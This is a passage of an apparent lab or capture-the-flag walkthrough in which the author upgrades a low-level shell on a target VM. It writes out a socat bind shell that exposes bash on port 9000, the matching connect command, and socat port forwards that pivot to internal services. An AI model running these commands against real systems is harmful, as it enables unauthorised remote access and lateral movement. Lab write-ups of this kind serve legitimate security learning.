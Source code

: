 
we have a low level shell at this point!

Some things we know:

  - Box is behind a firewall
  - We have a low level shell
  - We want to upgrade

Upgrading low level shell:

First try, PentestMonkey Reverse Shells (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - negative across the board


# socat - reverse connection

We need a bind shell and we just so happen to have `socat`. 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560475937_image.png)


For reference `socat` allows for tunneling, pivoting and we’ll call network mischief. 

setting up our connection on our victims box:

    socat TCP-LISTEN:9000,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane

connecting to socat locally:

    socat FILE:`tty`,raw,echo=0 TCP:192.168.56.118:9000

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560766871_image.png)


we have a successful connection.

check network connections:

    netstat -lunt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553560982988_image.png)


few more ports open here that we didn’t find initially.

Lets use `socat` to port forward the VM’s port 80 over port 4480
target:

    socat tcp-listen:4480,fork tcp:127.0.0.1:80 &

Local Kali navigate to port 4480

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553561592024_image.png)


`socat` made the hole for use to pass through.

Make another socat port forward hole with port 65334

    socat tcp-listen:4488,fork tcp:127.0.0.1:65334 &
